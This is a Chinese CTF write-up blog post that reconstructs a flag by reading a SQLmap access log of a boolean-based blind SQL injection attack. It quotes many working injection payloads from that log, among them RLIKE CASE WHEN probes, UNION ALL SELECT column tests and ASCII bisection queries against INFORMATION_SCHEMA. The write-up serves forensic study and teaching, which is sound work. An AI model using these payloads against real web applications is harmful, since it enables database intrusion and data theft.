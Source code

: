 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQLmap盲注原理细分          # 标题 
subtitle:      #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入 
    
    - Misc
    
    
---
```


## 简介:
Sqlmap 是一个自动化的 SQL 注入工具，其主要功能是扫描、发现并利用给定的 Url 的 Sql 注入漏洞，目前支持 MySQL、 Oracle、 PostgreSQL、 Microsoft SQL Server、 Microsoft Access 等主流数据库。

**Sqlmap 使用 5 种 SQL 注入技术（不加参数默认测试所有注入技术）：**

基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

联合查询注入，可以使用union的情况下的注入。

堆查询注入，可以同时执行多条语句的执行时的注入。


## 题目:

**仔细观察已受到攻击的服务器上的SQLmap盲注日志，逐字节分析得到flag**


## 考察点：
**SQLmap的盲注原理。此题是基于布尔判断的盲注。**


## 知识点：

SQLmap的盲注过程，与手工注入差不多，大概就是先判断是否为注入点，构造payload，然后再order by 判断列名个数，再用union 联合查询获得数据库名，再判断表名，在得到列名，最后得到具体数据。
## 解题过程：

**1.** 
下载access.log文件，用记事本打开观察会非常不方便，先在线url转码再可以把它复制到word里，使用全部替换，把union全部标上颜色，这样比较醒目，会看到sqlmap什么时候开始进行union查询。

**2.** 

```
192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (2783=2783) THEN 0x61646d696e ELSE 0x28 END))-- pCIJ&password=b HTTP/1.1" 200 183 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (7215=9005) THEN 0x61646d696e ELSE 0x28 END))-- hctR&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)" 

```

在此处注入成功.


```
192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' ORDER BY 1-- Hjkp&password=b HTTP/1.1" 200 215 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL-- DOGW&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,NULL-- TeAz&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

```
此处是在通过order by 盲目的猜，有几个字段数，如果成功则返回是。

**3.**
```
192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT CONCAT(0x717a7a6271,0x6e796e634c66504a7163556e4c59757451546d79536b4e4d48535559764e6c686e55596966657377,0x7170767071),NULL,NULL-- sTlf&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,CONCAT(0x717a7a6271,0x667165474b674f67557770626b4f476e575149536b6473496656616a446d494f65456b475a6d6468,0x7170767071),NULL-- Bnun&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"
```
此处是在判断出字段数之后，判断回显点。

**4.** 通过逐个字节猜ascii判断数据库名，最后得到数据库名，0x77616c6177616c61，walawala。
```
1192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>1) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"
```

**5.** 通过逐个字节猜ascii判断表名。最后得到表名，16进制转换为字符。fl4g。
```
192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>114) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>115) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

```
**6.** 猜列名，通过逐字节比较猜每个列名的ascii，依次判断，最后确定为walawala.fl4g
```
192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(column_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x666c3467 AND table_schema=0x77616c6177616c61 LIMIT 0,1),5,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- IRsT&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"
```

**7.** 读出数据flag。例如：
```
192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>64) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>96) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>112) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>104) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>100) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>102) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>101) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

```

判断flag的第一个字符ascii是否大于64，由第二句可以得到显然大于，又接着判断是否大于96，依然大于，之后判断112，说明小于等于112，之后判断104，100，102，说明比100大，小于等于102，直到最后判断101，说明比101大，可以唯一确定第一个字符的ascii为102，每个字符都如此的比较。最后可以确认flag。







[参考链接（一）:mysql注入细节](https://blog.csdn.net/weixin_33698823/article/details/91963832)

[参考链接（二）:sqlmap基于时间盲注判断原理](https://blog.csdn.net/think_ycx/article/details/52083782)


## 谢谢您的查阅，欢迎来访！
